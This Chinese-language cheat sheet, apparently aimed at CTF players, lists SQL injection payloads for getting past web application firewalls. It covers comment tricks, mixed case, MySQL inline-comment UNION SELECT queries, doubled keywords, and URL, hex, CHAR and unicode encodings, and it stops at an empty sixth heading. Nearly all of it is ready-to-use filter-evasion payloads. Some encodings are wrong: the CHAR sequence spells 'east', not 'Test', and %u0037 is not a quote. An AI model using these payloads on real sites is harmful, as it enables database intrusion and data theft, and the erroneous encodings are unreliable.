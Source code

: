 ##  1.注释符号绕过
```
--  注释内容
# 注释内容
/*注释内容*/
;
;%00
```
##  2.大小写绕过

常用于 waf的正则对大小写不敏感的情况，一般都是题目自己故意这样设计。
```
UniOn 
SeleCt
```
##  3.内联注释绕过

内联注释就是把一些特有的仅在MYSQL上的语句放在 /!../ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。
```
 select * from cms_users where userid=1 union /*!select*/ 1,2,3;
```
##  4.双写绕过

在某一些简单的waf中，将关键字select等只使用replace()函数置换为空，这时候可以使用双写关键字绕过。例如select变成seleselectct，在经过waf的处理之后又变成select，达到绕过的要求。

##  5.编码绕过

如URLEncode编码，ASCII,HEX,unicode编码绕过：

### 对关键字进行两次url全编码：
```
1+and+1=2
1+%25%36%31%25%36%65%25%36%34+1=2 
```
### ascii编码绕过
```
Test 等价于CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)
```
### 16进制绕过：
```
select * from users where username = test1;
select * from users where username = 0x7465737431;
```
### unicode编码对部分符号的绕过：
```
单引号=> %u0037 %u02b9
空格=> %u0020 %uff00
左括号=> %u0028 %uff08
右括号=> %u0029 %uff09
```
##  6.<>大于小于号绕过
